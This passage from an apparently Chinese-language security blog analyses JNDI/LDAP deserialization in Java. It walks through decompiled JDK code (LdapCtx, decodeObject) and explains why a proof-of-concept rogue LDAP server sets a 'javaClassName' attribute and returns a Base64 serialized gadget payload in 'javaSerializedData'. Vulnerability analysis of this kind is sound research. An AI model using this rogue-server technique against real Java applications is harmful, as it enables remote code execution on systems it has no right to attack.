 ```java
      } catch (LdapReferralException var18) {
        var5 = var18;
      } finally {
        var6.close();
      }
    }
  } catch (NamingException var21) {
    throw var2.fillInException(var21);
  }

  try {
    return DirectoryManager.getObjectInstance(var3, var1, this, this.envprops, (Attributes)var4);
  } catch (NamingException var16) {
    throw var2.fillInException(var16);
  } catch (Exception var17) {
    NamingException var24 = new NamingException("problem generating object using object factory");
    var24.setRootCause(var17);
    throw var2.fillInException(var24);
  }
}
```

我们关注下：

![image-20240328142550848](/blog_img/image-20240328142550848.png)

这里说假如var4的`Obj.JAVA_ATTRIBUTES[2]`不为null则会调用decodeObject处理var4，而JAVA_ATTRIBUTES[2]为javaClassName

这正是POC中要设置一个javaClassName属性的原因

```java
protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, IOException, NoSuchFieldException, IllegalAccessException, ParseException {
  e.addAttribute("javaClassName", "foo");
  e.addAttribute("javaSerializedData", Base64.decode(ccbase64()));
  result.sendSearchEntry(e);
  result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
}
```

来看下decodeObject方法：

```java
static Object decodeObject(Attributes var0) throws NamingException {
  String[] var2 = getCodebases(var0.get(JAVA_ATTRIBUTES[4]));

  try {
    Attribute var1;
    if ((var1 = var0.get(JAVA_ATTRIBUTES[1])) != null) {
      ClassLoader var3 = helper.getURLClassLoader(var2);
      return deserializeObject((byte[])((byte[])var1.get()), var3);
    } else if ((var1 = var0.get(JAVA_ATTRIBUTES[7])) != null) {
      return decodeRmiObject((String)var0.get(JAVA_ATTRIBUTES[2]).get(), (String)var1.get(), var2);
    } else {
      var1 = var0.get(JAVA_ATTRIBUTES[0]);
      return var1 == null || !var1.contains(JAVA_OBJECT_CLASSES[2]) && !var1.contains(JAVA_OBJECT_CLASSES_LOWER[2]) ? null : decodeReference(var0, var2);
    }
  } catch (IOException var5) {
    NamingException var4 = new NamingException();
```
